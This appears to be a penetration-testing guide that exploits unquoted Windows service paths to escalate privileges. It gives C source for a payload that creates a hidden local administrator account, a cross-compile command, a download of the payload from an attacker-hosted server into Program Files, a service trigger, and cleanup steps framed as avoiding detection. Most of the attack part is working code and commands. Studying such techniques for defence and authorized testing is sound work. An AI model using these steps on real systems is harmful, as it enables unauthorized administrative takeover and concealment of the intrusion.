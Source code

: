 Unquoted Service Paths

### Overview
Unquoted service paths present an opportunity for privilege escalation on Windows systems. When a service executable's path contains spaces and is **not enclosed in quotes**, Windows may misinterpret the path when starting the service. By exploiting this, an attacker can place a malicious executable in a writable directory, matching part of the unquoted path, and execute it with the privileges of the service (often LocalSystem).

---

### Step 1: Identify Unquoted Service Paths
Start by running **WinRecon.ps1** to enumerate services for unquoted paths:

1. **Option 2**: Run Custom Recon - (Select which functions to enable).
2. **Option 17**: Check services for **unquoted paths**.

#### Example Output:

![image](https://github.com/user-attachments/assets/7c50a419-eb9d-4751-800f-80de50e5afcc)


In this example, `GammaService` has an unquoted service path, making it a candidate for exploitation.

---

### Step 2: Verify Permissions and Start/Stop the Service
Before exploitation, confirm that:
1. You have permissions to **start** and **stop** the service.
2. You have **write permissions** in one of the directories derived from the unquoted path.

```powershell
net start <ServiceName>
net start GammaService
```

---

### Step 3: Create the Malicious Executable
The goal is to create an executable file that matches part of the unquoted path. In this case, we'll name the file `Current.exe` and place it in `C:\Program Files\Enterprise Apps`.

Option 1 msfvenom
```bash
```

Option 2 Manual Compile
#### Malicious Executable Code
We will use C code to create a new local administrative user:
```c
#include <stdlib.h>

int main() {
    system("net user taskmgrsvc Password123! /add");
    system("net localgroup administrators taskmgrsvc /add");
    return 0;
}
```

#### Compile the Executable
On your Kali machine, cross-compile the C code:

```bash
x86_64-w64-mingw32-gcc adduser.c -o Current.exe
```

---

### Step 4: Transfer the Malicious Executable
Host the executable on your attacker machine and transfer it to the target directory:

1. Start a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. Download the executable on the target machine:
   ```powershell
   iwr -uri http://<attacker_ip>/Current.exe -OutFile 'C:\Program Files\Enterprise Apps\Current.exe'
   ```
3. Verify the file exists:
   ```powershell
   ls 'C:\Program Files\Enterprise Apps\Current.exe'
   ```

---

### Step 5: Trigger the Exploit
Start the vulnerable service to trigger the execution of the malicious file:

```powershell
Start-Service -Name GammaService
```

If the service is configured to run with **LocalSystem** privileges, your malicious `Current.exe` will execute with the same privileges.

---

### Step 6: Verify Exploitation
Check if the new user was created and added to the Administrators group:

1. Verify the new user:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output**:
```plaintext
User accounts for \TARGETSYSTEM
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the `taskmgrsvc` user was created and added to the Administrators group.

---

### Step 7: Cleanup
To avoid detection, clean up after exploitation:

1. Delete the malicious executable:
   ```powershell
   del 'C:\Program Files\Enterprise Apps\Current.exe'
   ```
2. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### Notes:
- Unquoted service paths require specific conditions, such as missing quotes in the binary path and writable permissions in intermediate directories.
- Ensure you identify all writable paths before placing the malicious executable.
- Use PowerUp's `Get-UnquotedService` function to automate the discovery process:
   ```powershell
   Import-Module .\PowerUp.ps1
   Get-UnquotedService
   ```

---

### References
- [HackTricks - Unquoted Service Paths](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/unquoted-service-paths)
- Microsoft Documentation on Service Paths

---

**End of Unquoted Service Path Exploit Guide**
